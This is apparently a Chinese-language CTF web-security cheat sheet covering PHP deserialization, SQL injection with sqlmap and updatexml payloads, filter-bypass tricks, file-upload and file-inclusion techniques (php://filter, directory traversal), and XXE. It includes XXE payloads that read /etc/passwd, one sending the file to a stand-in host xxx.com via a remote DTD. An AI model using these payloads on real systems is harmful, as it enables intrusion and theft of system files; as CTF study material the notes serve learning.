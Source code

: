##

### 一.隐藏信息
1. 源代码隐藏关键信息
2. 请求和响应头隐藏关键信息

### 二.代码审计

1.1php漏洞

1.1.1 序列化与反序列化

（1）序列化

序列化就是把一个对象（非类）存成一个字符串，要用时再反序列释放出它。
注意序列化只会包含对象的变量，不会包含函数。而且序列化对象后面的字符串不会再反序列化时解析（md5扩展长度攻击时可用）

（2）session序列化

（3）序列化漏洞

当序列化字符串中，表示对象属性个数的值大于实际个数时，在反序列化后就会跳过wakeup方法的执行



1.2 md5扩展长度攻击


1.3 本地JS代码审计


1.4 修改请求头
Referef:
X-Forwarded-For:
User-Agent:
Accept-Language:

### 三.目录扫描
1. 敏感文件扫描
工具：[dirsearch](https://github.com/maurosoria/dirsearch),御剑

2. git泄露
工具：[GitHack](https://github.com/lijiejie/GitHack),

3. vim泄露
.swp文件

~文件

通过
```
vim -r 交换文件还原
```

### 四.sql注入

sqlmap -u {url} --batch -v {number} --level {number} --dump

1. 基于查询类型划分

    1.1. 数字型注入

    1.2. 字符型注入

2. 基于注入类型划分：

    2.1. union注入

    2.2. 报错注入

    concat(0x3e,(),0x3e)

    updatexml(0x3e,(),0x3e)

    updatexml(0x3e,(concat(0x3e,(sql),0x3e)),0x3e)

    2.3. 盲注

        2.3.1. 布尔盲注

        2.3.2. 时间盲注

3. 基于字段划分:

    3.1. get,post参数

    3.2. XFF

    3.3. cookie

    3.4. 基于数据库划分

        3.4.1. mysql

        3.4.2. sqlite

        3.4.3. access

    3.4.绕过方法
        3.4.1. 空格

        3.4.2. 引号

        3.4.3. 注释
         1. 可以用引号连接后面的引号代替注释,and ''=',and '1'='1
         2. %23代替#
         3. --+
         4. /*    */(比较特殊，一般用在双关键字查询)

        3.4.4. 关键字
         1. 外重写,select->seleselectct
         2. 内联注释,\/\*!\*\/

        3.4.5. 常用函数

### 五.XSS
1. 存储型XSS

2. 反射型XSS

3. DOM型XSS

### 六.文件上传和文件解析
文件上传：
- 本地js
- filename文件后缀名
- Content-Type文件类型
- filename+Content-Type绕过
- 文件内容绕过 图片马，声音马

文件解析


### 八.文件包含
题眼：
page=
file=
action=

主要函数：
include()
require()
file_get_contents()

主要姿势：
php://input 标准输入，post中带输入内容
php://filter/read=convert.base64-encode/resource=文件名   标准输出，输出指定文件内容。
../../ 目录穿越


1. 本地文件包含
引用的是服务器上的文件

2. 远程文件包含
引用的是非服务器上的文件，一般默认关闭


### 九.XXE
XML外部实体注入，当允许引用外部实体时，通过构造恶意内容，就可能导致任意文件读取、系统命令执行，内网端口探测、攻击内网网站等目的。


必备条件：
Content-Type: application/xml
post请求中传入poc

一般poc:
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE foo[ 
<!ENTITY f SYSTEM "file:///etc/passwd">
]>
<foo>&f;</foo>
```


远程DTD
```
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE data SYSTEM "http://xxx.com/xxe_file.dtd">
<data>&xxe;<data>
```
http://xxx.com/xxe_file.dtd:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % all "><!ENTITY xxe SYSTEM 'http://xxx.com/?%file;'>">
%all
```
引用自https://www.freebuf.com/articles/web/177979.html

### 十.命令执行
经常flag就在同级目录下面的文件名或者文件中。可以通过ls,cat等命令查看。
或者利用语言所带的查看文件内容和查看目录下文件查看。


### 十一.远程代码执行


